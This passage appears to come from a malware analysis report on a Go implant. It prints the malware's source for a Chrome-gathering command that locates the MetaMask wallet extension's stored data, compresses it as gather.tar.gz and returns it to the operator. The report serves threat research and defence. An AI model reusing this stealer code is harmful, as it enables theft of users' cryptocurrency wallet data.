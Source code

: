 ```golang
		[]byte(host),
		[]byte(os),
		[]byte(arch),
		[]byte(config.DAEMON_VERSION),
	}

	return config.MSG_INFO, data
}
```
# Stealer Activity

COMMAND_AUTO ("r4ys") can execute various stealer sub-commands:

* AUTO_CHROME_GATHER ("89io")

This command walks the Chrome user data directory, with a path dependent on the operating system, and it locates a file that matches the name `nkbihfbeogaeaoehlefnkodbefgpgknn` in the `Local Extension Settings` folder. If found, it compresses and returns its content as `gather.tar.gz`. This seems to be targeting the MetaMask Wallet extension.

```golang
func AutoModeChromeGather() (string, [][]byte) {
	print("===========	AutoModeChromeGather ===========", runtime.GOOS, "\n")
	
	var (
		buf          bytes.Buffer
		userdata_dir string
		path_list    []string
	)

	// gather
	userdata_dir = getUserdataDir()

	// file system search
	_ = filepath.Walk(userdata_dir, func(path string, info os.FileInfo, err error) error {
		if info.Name() == extension_dir && strings.Contains(path, "Local Extension Settings") {
			path_list = append(path_list, path)
		}
		return nil
	})

	_ = util.Compress(&buf, path_list, true)

	print("===========	End ===========\n")

	// return
	data := make([][]byte, 3)
	data[0] = []byte(config.LOG_SUCCESS)
	data[1] = []byte("gather.tar.gz")
	data[2] = buf.Bytes()
	msg_type := config.MSG_FILE

	return msg_type, data
}
```
